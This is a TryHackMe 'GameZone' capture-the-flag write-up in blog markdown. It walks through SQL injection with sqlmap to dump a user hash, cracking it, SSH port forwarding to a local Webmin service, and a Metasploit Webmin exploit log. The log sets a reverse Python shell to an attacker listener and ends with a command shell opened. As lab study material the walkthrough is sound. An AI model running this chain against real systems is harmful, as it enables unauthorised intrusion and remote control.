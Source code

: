 ```yaml
---
layout : post 
title: GameZone
image : SkyNet.png
date: 2021-04-24 01:43 +0530
tags: [hashcat ,SSH PortForwording ]
---
```

# nmap

# Enumeration 

# Exploitation 
sqlinjection on port 80 

![]({{site.baseurl}}/img/tryhackme/GameZone/sqli.png)

copy the web req and save it as sql.txt to use with sql map

![]({{site.baseurl}}/img/tryhackme/GameZone/afterlogin.png)

>  sqlmap -r sql.txt --dbms=mysql --dump

![]({{site.baseurl}}/img/tryhackme/GameZone/sqlmamp.png)
```
sql table

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```
Cracking the hash 

![]({{site.baseurl}}/img/tryhackme/GameZone/crackstation.png)

<h3>ssh port forword</h3>

>ssh -L 10000:localhost:10000 agent47@10.10.231.199

![]({{site.baseurl}}/img/tryhackme/GameZone/service.png)

# Privilage Esclation 

![]({{site.baseurl}}/img/tryhackme/GameZone/webmin.png)

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.9.202.83
lhost => 10.9.202.83
msf6 exploit(unix/webapp/webmin_show_cgi_exec) >set lport 5555
lport => 5555
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhost localhost
rhost => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false 
[!] Changing the SSL option s value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (10.9.202.83:5555 -> 10.10.231.199:38944) at 2021-04-24 02:37:46 -0400
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions 1 
[*] Starting interaction with 1...

```